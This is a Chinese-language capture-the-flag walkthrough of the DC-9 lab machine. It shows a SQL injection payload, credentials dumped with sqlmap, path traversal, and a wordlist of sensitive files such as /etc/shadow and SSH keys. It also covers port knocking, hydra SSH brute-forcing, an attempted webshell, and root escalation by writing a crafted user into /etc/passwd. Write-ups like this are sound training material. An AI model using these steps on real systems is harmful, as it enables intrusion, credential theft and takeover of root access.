确定IP:192.168.243.135
端口:经典22,80
目录扫描
注入拿敏感数据
http://192.168.243.135/results.php 搜索页面,payload为’or 1=1 ##时

显示出了所以信息,确定是有注入了,丢sqlmap跑一下，找到了结果
有三个库users，Staff，information_schema
users下有一个表UserDetails ，Staff下有两个Users ，StaffDetails ，
UserDetails表里的数据
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
| [17 entries]
+-----------+---------------+
| username | password |
+-----------+---------------+
| marym | 3kfs86sfd |
| julied | 468sfdfsd2 |
| fredf | 4sfd87sfd1 |
| barneyr | RocksOff |
| tomc | TC&TheBoyz |
| jerrym | B8m#48sd |
| wilmaf | Pebbles |
| bettyr | BamBam01 |
| chandlerb | UrAG0D! |
| joeyt | Passw0rd |
| rachelg | yN72#dsd |
| rossg | ILoveRachel |
| monicag | 3248dsds7s |
| phoebeb | smellycats |
| scoots | YR3BVxxxw87 |
| janitor | Ilovepeepee |
| janitor2 | Hawaii-Five-0 |
+-----------+---------------+
|
Users表里的数据
1
2
3
4
5
| +----------------------------------+----------+
| Password | username |
+----------------------------------+----------+
| 856f5de590ef37314e7c3bdf6f8a66dc | admin |
+----------------------------------+----------+
|
StaffDetails表下只有用户信息，没有密码之类的，就没有dump了
admin的那条密码在somd5.com解码出来了
admin
transorbital1
文件包含
后台有一个插入数据的功能，应该是要用这个来getshell，
试了一些办法，没成功
后面看别人的，还是dc-5那个文件包含
拿bp爆破一下参数

http://192.168.243.135/manage.php?file=../../../../../../etc/passwd
可以看到用户挺多的，然后开了22端口，不知道爆破能不能爆出来
处理一下数据，准备ssh爆破
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
| marym
julied
fredf
barneyr
tomc
jerrym
wilmaf
bettyr
chandlerb
joeyt
rachelg
rossg
monicag
phoebeb
scoots
janitor
janitor2
|
ssh连接不上，还是准备和dc-5一样的日志getshell吧
测了一下，日志读不到，裂开
决定爆破一下敏感文件
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21
22
23
24
25
26
27
28
29
30
31
32
33
34
35
36
37
38
39
40
41
42
43
44
45
46
47
48
49
50
51
52
53
54
55
56
57
58
59
60
61
62
63
64
65
66
67
68
69
70
71
72
73
74
75
76
77
78
79
80
81
82
83
84
85
86
87
88
89
90
91
92
93
94
95
96
97
98
99
100
101
102
103
104
105
106
107
108
109
110
111
112
113
114
115
116
117
118
119
120
121
122
123
124
125
126
127
128
129
130
131
132
133
134
135
136
137
138
139
140
141
142
143
144
145
146
147
148
149
150
151
152
153
154
155
156
157
158
159
160
161
162
163
164
165
166
167
168
169
170
171
172
173
174
175
176
177
178
179
180
181
182
183
184
185
186
187
188
189
190
191
192
193
194
195
196
197
198
199
200
201
| /apache/apache/conf/httpd.conf
/apache/apache2/conf/httpd.conf
/apache/php/php.ini
/bin/php.ini
/etc/anacrontab
/etc/apache/apache.conf
/etc/apache/httpd.conf
/etc/apache2/apache.conf
/etc/apache2/httpd.conf
/etc/apache2/sites-available/default
/etc/apache2/vhosts.d/00_default_vhost.conf
/etc/at.allow
/etc/at.deny
/etc/cron.allow
/etc/cron.deny
/etc/crontab
/etc/fstab
/etc/host.conf
/etc/httpd/conf.d/httpd.conf
/etc/httpd/conf.d/php.conf
/etc/httpd/conf/httpd.conf
/etc/httpd/htdocs/index.html
/etc/httpd/htdocs/index.php
/etc/httpd/logs/access.log
/etc/httpd/logs/access_log
/etc/httpd/logs/error.log
/etc/httpd/logs/error_log
/etc/httpd/php.ini
/etc/init.d/httpd
/etc/init.d/mysql
/etc/ld.so.conf
/etc/motd
/etc/my.cnf
/etc/mysql/my.cnf
/etc/mysql/my.cnf
/etc/network/interfaces
/etc/networks
/etc/passwd
/etc/php.ini
/etc/php/apache/php.ini
/etc/php/apache2/php.ini
/etc/php/cgi/php.ini
/etc/php/php.ini
/etc/php/php4/php.ini
/etc/php4.4/fcgi/php.ini
/etc/php4/apache/php.ini
/etc/php4/apache2/php.ini
/etc/php4/cgi/php.ini
/etc/php5/apache/php.ini
/etc/php5/apache2/php.ini
/etc/php5/cgi/php.ini
/etc/phpmyadmin/config.inc.php
/etc/resolv.conf
/etc/shadow
/etc/ssh/sshd_config
/etc/ssh/sshd_config
/etc/ssh/ssh_config
/etc/ssh/ssh_config
/etc/ssh/ssh_host_dsa_key
/etc/ssh/ssh_host_dsa_key
/etc/ssh/ssh_host_dsa_key.pub
/etc/ssh/ssh_host_dsa_key.pub
/etc/ssh/ssh_host_key
/etc/ssh/ssh_host_key
/etc/ssh/ssh_host_key.pub
/etc/ssh/ssh_host_key.pub
/etc/ssh/ssh_host_rsa_key
/etc/ssh/ssh_host_rsa_key
/etc/ssh/ssh_host_rsa_key.pub
/etc/ssh/ssh_host_rsa_key.pub
/etc/sysconfig/network
/etc/sysconfig/network
/home/apache/conf/httpd.conf
/home/apache2/conf/httpd.conf
/home/bin/stable/apache/php.ini
/home2/bin/stable/apache/php.ini
/NetServer/bin/stable/apache/php.ini
/opt/www/conf/httpd.conf
/opt/www/htdocs/index.html
/opt/www/htdocs/index.php
/opt/xampp/etc/php.ini
/PHP/php.ini
/php/php.ini
/php4/php.ini
/php5/php.ini
/root/.atftp_history
/root/.bashrc
/root/.bash_history
/root/.mysql_history
/root/.nano_history
/root/.php_history
/root/.profile
/root/.ssh/authorized_keys
/root/.ssh/identity
/root/.ssh/identity.pub
/root/.ssh/id_dsa
/root/.ssh/id_dsa.pub
/root/.ssh/id_rsa
/root/.ssh/id_rsa.pub
/root/anaconda-ks.cfg
/tmp/apache/htdocs/index.html
/tmp/apache/htdocs/index.php
/usr/lib/php.ini
/usr/lib/php/php.ini
/usr/local/apache/conf/httpd.conf
/usr/local/apache/conf/php.ini
/usr/local/apache/htdocs/index.html
/usr/local/apache/htdocs/index.php
/usr/local/apache/logs/access.log
/usr/local/apache/logs/access_log
/usr/local/apache/logs/access_logaccess_log.old
/usr/local/apache/logs/error.log
/usr/local/apache/logs/error_log
/usr/local/apache/logs/error_logerror_log.old
/usr/local/apache2/conf/httpd.conf
/usr/local/apache2/conf/php.ini
/usr/local/apache2/htdocs/index.html
/usr/local/apache2/htdocs/index.php
/usr/local/cpanel/logs
/usr/local/cpanel/logs/access_log
/usr/local/cpanel/logs/error_log
/usr/local/cpanel/logs/license_log
/usr/local/cpanel/logs/login_log
/usr/local/cpanel/logs/stats_log
/usr/local/cpanel/logs/stats_log
/usr/local/etc/php.ini
/usr/local/httpd/conf/httpd.conf
/usr/local/httpd2.2/htdocs/index.html
/usr/local/httpd2.2/htdocs/index.php
/usr/local/lib/php.ini
/usr/local/mysql/bin/mysql
/usr/local/mysql/my.cnf
/usr/local/php/lib/php.ini
/usr/local/php4/lib/php.ini
/usr/local/php4/lib/php.ini
/usr/local/php4/php.ini
/usr/local/php5/etc/php.ini
/usr/local/php5/lib/php.ini
/usr/local/php5/php5.ini
/usr/local/share/examples/php/php.ini
/usr/local/share/examples/php4/php.ini
/usr/local/tomcat5527/bin/version.sh
/usr/local/Zend/etc/php.ini
/usr/share/tomcat6/bin/startup.sh
/usr/tomcat6/bin/startup.sh
/var/apache2/config.inc
/var/httpd/conf/httpd.conf
/var/httpd/conf/php.ini
/var/httpd/conf/php.ini
/var/httpd/htdocs/index.html
/var/httpd/htdocs/index.php
/var/lib/mysql/my.cnf
/var/lib/mysql/mysql/user.MYD
/var/local/www/conf/httpd.conf
/var/local/www/conf/php.ini
/var/log/access.log
/var/log/access_log
/var/log/apache/access.log
/var/log/apache/access_log
/var/log/apache/error.log
/var/log/apache/error_log
/var/log/apache2/access.log
/var/log/apache2/access_log
/var/log/apache2/error.log
/var/log/apache2/error_log
/var/log/error.log
/var/log/error_log
/var/log/mysql.log
/var/log/mysql/mysql-bin.log
/var/log/mysql/mysql-slow.log
/var/log/mysql/mysql.log
/var/log/mysqlderror.log
/var/mail/root
/var/mysql.log
/var/spool/cron/crontabs/root
/var/spool/mail/root
/var/www/conf/httpd.conf
/var/www/htdocs/index.html
/var/www/htdocs/index.php
/var/www/index.html
/var/www/index.php
/var/www/logs/access.log
/var/www/logs/access_log
/var/www/logs/error.log
/var/www/logs/error_log
/web/conf/php.ini
/www/conf/httpd.conf
/www/htdocs/index.html
/www/htdocs/index.php
/www/php/php.ini
/www/php4/php.ini
/www/php5/php.ini
/xampp/apache/bin/php.ini
/xampp/apache/conf/httpd.conf
root/.ssh/authorized_keys
root/.ssh/identity
root/.ssh/identity.pub
root/.ssh/id_dsa
root/.ssh/id_dsa.pub
root/.ssh/id_rsa
root/.ssh/id_rsa.pub
|
丢bp里爆破，也没找到什么东西，
knockd，ssh连接getshell
还是去看别人的过程，要读
这个文件，然后去查了一下这个玩意，大概是，要先访问sequence指定的端口，才会打开或者关闭对应的端口
比如这里，

openSSH下面的sequence指定了7469,8475,9842三个端口，在不访问这几个端口前，直接ssh连接过去，是会被拒绝的
但访问了这些端口后，这里我用的telnet
telnet 192.168.243.135 7469
telnet 192.168.243.135 8475
telnet 192.168.243.135 9842


就可以正常连接ssh（虽然现在还是不知道密码）
然后就去hydra里用找到的账号密码去爆破ssh密码了
[22][ssh] host: 192.168.243.135 login: chandlerb password: UrAG0D!
[22][ssh] host: 192.168.243.135 login: joeyt password: Passw0rd
[22][ssh] host: 192.168.243.135 login: janitor password: Ilovepeepee
chandlerb
UrAG0D!
joeyt
Passw0rd
janitor
Ilovepeepee
在/var/www/html/config.php里找到了数据库密码
dbuser
password
没啥用的样子，
在/opt/devstuff下面发现有个python文件

可以读写文件，试了一下写一个一句话到/var/html/www/bak
echo ““ > /tmp/shell.php
python test.py /tmp/shell.php /var/www/html/bak.manage.php

报错了。
提权
在janitor下面发现了一个文本文件，里面有些密码

拿出来，再去爆破一下，出来一个新用户，
[22][ssh] host: 192.168.243.135 login: fredf password: B4-Tru3-001
fredf
B4-Tru3-001
果然，sudo -l发现它可以不用密码用sudo执行一个test文件，这里的看文件结构，应该是把test.py打包成了可执行文件，
这样子就可以向任意文件写入数据了
sudo ./test /tmp/shell.php /var/www/html/bak.manage.php
所以这里我在tmp目录下写了一个shell。然后用test把它写入到index.php中，再用蚁剑连接上去

(发现多此一举。: p)
直接写入一个用户到passwd文件里就行
openssl passwd -1 -salt admin2 admin2
$1$admin2$Pr1254RlLuWxoieYEI.Sa0
拼接好数据后，写入到/tmp/get文件里，（只有这里可以任意写文件）
echo ‘admin2:$1$admin2$Pr1254RlLuWxoieYEI.Sa0:0:0::/:/bin/bash’ > /tmp/get
然后用test写入到passwd
sudo /opt/devstuff/dist/test/test /tmp/get /etc/passwd
之后直接su admin2
切换过去，就可以看到flag了

可能是因为是最后一个靶机，最后的结束语都有些不一样
So long, and thanks for all the fish.
总结
由于粗心，注入的时候没有第一时间找到各个用户的密码，导致后面ssh爆破的时候傻乎乎的花了很多时间，过于粗心。文件包含这个很早就注意过了，但是却没有想到去文件包含（他已经考过一次），后面提权的时候，直接写入passwd文件创建用户，这一点以前没有碰过。